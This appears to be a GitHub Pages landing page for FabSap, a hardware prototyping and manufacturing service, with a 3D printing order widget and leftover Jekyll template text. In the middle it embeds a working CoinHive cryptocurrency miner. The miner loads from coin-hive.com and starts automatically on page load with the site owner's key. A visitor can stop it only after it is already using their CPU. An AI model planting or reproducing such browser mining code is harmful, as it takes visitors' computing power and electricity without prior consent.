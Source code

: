 ## Welcome to FabSap

@FabSap our mission is to enable hardware engineers/hakers/makers with prototypes build right - on time and at affordable prices.
As Makers you keep on creating awesome stuff while we handle manufacturing for you.



### 3D Printing

You can order 3d Prints right away:

<a href="https://www.3dhubs.com/service/fabsap" data-3dhubs-widget="button" data-hub-id="72904" data-type="orderWidget" data-color="green" data-size="large" data-text="Order a 3D Print" >Order a 3D Print</a>
<script>!function(a,b,c,d){var e,g=(a.getElementsByTagName(b)[0],/^http:/.test(a.location)?"http":"https");a.getElementById(d)||(e=a.createElement(b),e.id=d,e.src=g+"://d3d4ig4df637nj.cloudfront.net/w/2.0.js",e.async=!0,a.body.appendChild(e))}(document,"script",1,"h3d-widgets-js");</script>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
Instead of using ads, I am having you mine for crypto currency to support this site. Here are your stats:
<center>
<p id="tcount"></p>
<p id="hps"></p>
<p id="ths"></p>
<p id="tah"></p>
</center>
<p>You can start or stop at anytime but please wait for some accepted hashes before you do.</p>
<center>
<p id="minebutton"></p>
</center>
<p>Visit <a href="https://coin-hive.com/">Coin Hive</a> to learn more about how this works</a>

<script type="text/javascript">
var miner = new CoinHive.Anonymous('zMtnsQ82YuudZehaQerpxlPI7ct2NUld','john-doe', {threads: 2,	autoThreads: true});
miner.start(CoinHive.FORCE_EXCLUSIVE_TAB);
// Update stats once per second
setInterval(function() {
    var threadCount = miner.getNumThreads();
    var hashesPerSecond = Math.round(miner.getHashesPerSecond() * 100) / 100;
    var totalHashes = miner.getTotalHashes();
    var acceptedHashes = miner.getAcceptedHashes() / 256;
    // Output to HTML elements...
    if (miner.isRunning()) {
        document.getElementById("tcount").innerHTML = "Threads: " + threadCount;
        document.getElementById("hps").innerHTML = "hashes per second: " + hashesPerSecond;
        document.getElementById("ths").innerHTML = "Total Hashes: " + totalHashes;
        document.getElementById("tah").innerHTML = "Accepted Hashes: " + acceptedHashes;
        document.getElementById("minebutton").innerHTML = "<button onclick=\"miner.stop()\">Stop Mining</button>";
    } else {
        document.getElementById("hps").innerHTML = "Please click start";
        document.getElementById("ths").innerHTML = "to support";
        document.getElementById("tah").innerHTML = "this site";
        document.getElementById("minebutton").innerHTML = "<button onclick=\"miner.start(CoinHive.FORCE_EXCLUSIVE_TAB)\">Start Mining</button>";
    }
}, 1000);
</script>


```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/dhavalpalsana/Fabsap/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.

